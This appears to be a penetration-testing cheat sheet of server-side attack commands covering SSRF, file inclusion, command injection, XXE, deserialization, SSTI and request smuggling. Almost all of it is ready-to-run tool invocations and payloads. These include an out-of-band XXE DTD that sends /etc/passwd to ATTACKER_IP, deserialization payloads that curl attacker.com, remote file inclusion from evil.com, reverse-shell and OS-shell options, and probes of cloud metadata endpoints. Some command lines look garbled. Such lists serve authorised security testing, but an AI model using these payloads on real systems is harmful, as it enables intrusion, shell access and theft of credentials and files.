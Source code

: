 ### 3.4 Server-Side Vulnerabilities
#### 3.4.1 SSRF Testing
    :- Automated SSRF exploitation on 'url' parameter
    ssrfmap -r request_for_ssrf.txt -p url -m http,gopher --lhost your_server_ip 
    
    :- Use Interactsh for OOB detection
    ssrfmap -r req.txt -p file --handler interactsh
    
    :- Attempt to read local files via SSRF
    ssrfmap -r req.txt -p u --module readfiles --lfile /etc/passwd

    
    :- Start Interactsh client for OOB interactions
    interactsh-client
    
    :- Manual SSRF test with Interactsh
    curl -X POST -d "url=http://YOUR_INTERACTSH_ID.oastify.com" https://target.com/proxy 

    
    :- Inject SSRF payloads from file and check status
    qsreplace "http://target.com/proxy?url=FUZZ" -a "ssrf_payloads.txt" | httpx -silent -status-code -mc 200 
    -----
        ssrfmap -r request.txt -p url=https://yourcollab.com
    ssrfmap -r request.txt -p url=https://yourcollab.com -m portscan
    gopherus --exploit mysql
    gopherus --exploit mysql --inject 'curl https://collab.net'
    ground-control -u https://target.com/redirect?url=COLLAB
    qsreplace -a urls.txt -p ssrf_payloads.txt -o ssrf_urls.txt
    ------
    ssrfmap -r request.txt -p url=https://$(whoami).oastify.com -m portscan -ports 80,443,21,22
    ssrfmap -r post_request.txt -p callback=http://your-server.com/receive -X POST
    gopherus --exploit mysql --inject 'SELECT LOAD_FILE("\\\\\\\\evil\\\\\\\\share\\\\\\\\file.txt")' | curl -v --data-urlencode "url=gopher://127.0.0.1:3306/_$(cat -)" https://target.com/proxy
    gopherus --exploit redis --command "SLAVEOF your-server.com 6379" | curl -v --data-urlencode "url=gopher://127.0.0.1:6379/_$(cat -)" https://target.com/api
    ground-control -u https://target.com/redirect?url=file:///etc/passwd -w /usr/share/wordlists/fuzzdb/wordlists-common/file-extensions-common.txt
    ground-control -u https://target.com/proxy?u=http://metadata.google.internal/computeMetadata/v1/project/numeric-project-id
    qsreplace -a urls.txt -p "http://localhost,http://127.0.0.1,file:///,gopher://" -o ssrf_potential.txt
    ------
    ssrfmap -r request.txt -p url=dict://localhost:11211/info -m portscan -ports 1-1000
    ssrfmap -r post_request.txt -p callback=http://[::1]:80/receive -X POST
    gopherus --exploit mysql --inject 'SELECT @@version' | curl -v --data-urlencode "url=gopher://127.0.0.1:3306/_$(cat -)" https://target.com/proxy
    gopherus --exploit redis --command "PING" | curl -v --data-urlencode "url=gopher://127.0.0.1:6379/_$(cat -)" https://target.com/api
    ground-control -u https://target.com/redirect?url=http://169.254.169.254/latest/meta-data/ -w /usr/share/wordlists/fuzzdb/wordlists-common/file-extensions-common.txt -H "X-Forwarded-For: 127.0.0.1"
    ground-control -u https://target.com/proxy?u=http://[0:0:0:0:0:ffff:a9fe:a9fe]/latest/meta-data/
    qsreplace -a urls.txt -p "http://0,http://0.0.0.0,http://[::],file:///,gopher://,ftp://" -o ssrf_bypasses.txt



#### 3.4.2 File Inclusion (LFI/RFI)
    :- Test LFI and RFI, attempt reverse shell
    lfimap -u 'https://target.com/page?file=FUZZ' --rfi --lhost YOUR_IP --lport 4444 
    
    :- Heuristic-based LFI detection
    lfimap -u 'https://target.com/download?path=FUZZ' --heuristics --level 2
    
    :- Use custom LFI wordlist
    lfimap -u 'https://target.com/include.php?page=FUZZ' -w /usr/share/wordlists/wfuzz/general/lfi.txt 

    
    :- Directory traversal tool
    dotdotpwn -m http -h target.com -u "/scripts/download.php?file=TRAVERSAL" -k "root:" -o dotdotpwn_results.txt 
    
    :- Standard traversal, look for /etc/passwd
    dotdotpwn -m http -h target.com -f /etc/passwd -s
    ------
        lfisuite -u https://target.com/view?file=index.html -o lfi_results.txt
    fimap -u 'https://target.com/page?file=XXE' -x
    dotdotpwn -m http -h target.com -u /vuln/page?f=TRAVERSAL -k root
    ------
    lfisuite -u https://target.com/view?file=../../../../etc/passwd -o lfi_results_passwd.txt -b "root:"
    lfisuite -u https://target.com/index.php?page=http://evil.com/malicious.txt -o rfi_evil.txt -r "evil content"
    fimap -u 'https://target.com/page?file=XXE' -x -o fimap_xxe.txt --rhost evil.com --rport 8080
    fimap -u 'https://target.com/image?name=../../../../etc/shadow' --lfi-only -o fimap_lfi_shadow.txt
    dotdotpwn -m http -h target.com -u /vuln/page?f=TRAVERSAL -k root -d 5 -t 10
    dotdotpwn -m ftp -h target.com -u /../../../../etc/passwd -P 21 -k root
    ------
    lfisuite -u https://target.com/view?file=....//....//....//etc/passwd -o lfi_results_dots.txt -b "root:"
    lfisuite -u https://target.com/index.php?page=http://evil.com/malicious.txt%00 -o rfi_nullbyte.txt -r "evil content"
    fimap -u 'https://target.com/page?file=XXE' -x -o fimap_xxe_full.txt --rhost evil.com --rport 8080 --data '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><foo>&xxe;</foo>'
    fimap -u 'https://target.com/image?name=..%2f..%2f..%2f..%2fetc%2fshadow' --lfi-only -o fimap_lfi_encoded.txt
    dotdotpwn -m http -h target.com -u /vuln/page?f=TRAVERSAL -k root -d 7 -t 15 -s /usr/share/seclists/Fuzzing/LFI/LFI-paths.txt
    dotdotpwn -m ftp -h target.com -u /../../../../../../../../etc/passwd -P 21 -k root -o ftp_lfi.txt


#### 3.4.3 Command Injection
    :- Test command injection, run whoami
    commix -u "https://target.com/cmd.php?command=FUZZ" --os-cmd "whoami"
    
    :- POST based, get OS shell
    commix --url="https://target.com/exec?host=127.0.0.1" --data="host=127.0.0.1&submit=submit" -p host --os-shell 
    
    :- Test all injectable parameters from a request file
    commix -r request.txt -p param_to_inject --all


#### 3.4.4 XXE (XML External Entity) Injection
    :- (Manual testing with custom XML payloads is key. Tools can help automate detection)

    :- Example XXE Payload (to be used in a request body or file upload):
    
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <data>&xxe;</data>
    #
    For OOB XXE:
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://ATTACKER_IP:PORT/ext.dtd"> %xxe;]>
    Contents of ext.dtd on attacker server:
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://ATTACKER_IP:PORT/?f=%file;'>">
    %eval;
    %exfil;

    :- (nuclei has XXE templates)    
    :- Run XXE templates
    nuclei -u https://target.com/xml_endpoint -t vulnerabilities/xxe/ 
    ---
        xxeinjector -f request.xml
    docem -u https://target.com/upload


#### 3.4.5 Prototype Pollution
    :- (Primarily a JavaScript vulnerability, manual testing and code review are crucial)
    :- Example in URL: https://target.com/?__proto__[isAdmin]=true
    :- Example in JSON body: {"__proto__": {"isAdmin": true}}
    :- Tools like ppfuzz or custom scripts can help discover potential gadgets.
    
    :- Conceptual: Fuzz for prototype pollution gadgets
    ppfuzz -u https://target.com/script.js -l 3


#### 3.4.6 HTTP Request Smuggling/Desync Attacks
    :- (Tools like Burp's HTTP Request Smuggler extension are essential. CLI tools can help test.)
    
    :- Test for CL.TE and TE.CL vulnerabilities
    smuggler.py -u https://target.com -x
    
    :- Test POST with data, log results
    smuggler.py -u https://target.com -m POST -d "param=val" -l log.txt 
    Turbo Intruder (Burp Extension) is highly effective for this.


#### 3.4.7 Deserialization Vulnerabilities
    :- (Highly language/framework specific. ysoserial for Java, phpggc for PHP)
    
    :- Generate Java deserialization payload
    java -jar ysoserial.jar CommonsCollections5 "curl http://attacker.com/hit" > java_payload.ser 
    
    :- Generate PHP deserialization payload
    phpggc Guzzle/FW1 RCE system "curl http://attacker.com/php_hit" > php_payload.phar 
    (These payloads would then be sent in appropriate request parameters/bodies)


#### 3.4.8 Server-Side Template Injection (SSTI)
    :- (Manual testing with language-specific payloads is common)
    Example Payloads:
    {{ 7*7 }} (Jinja2/Twig)
    <%= 7*7 %> (Ruby ERB)
    ${7*7} (Java EL, Freemarker)
    #{7*7} (Java JSF)
    @(7*7) (Razor .NET)
    
    :- Automated SSTI detection and exploitation
    tplmap -u "https://target.com/page?name=FUZZ" --os-shell
    
    :- Test POST parameter
    tplmap -u "https://target.com/search" -d "query=FUZZ" --os-cmd "whoami" 


#### 3.4.9 CRLF Injection
    crlfuzz -u "https://target.com" -p 10

#### 3.4.10 CORS Misconfigurations
    corsy -u https://target.com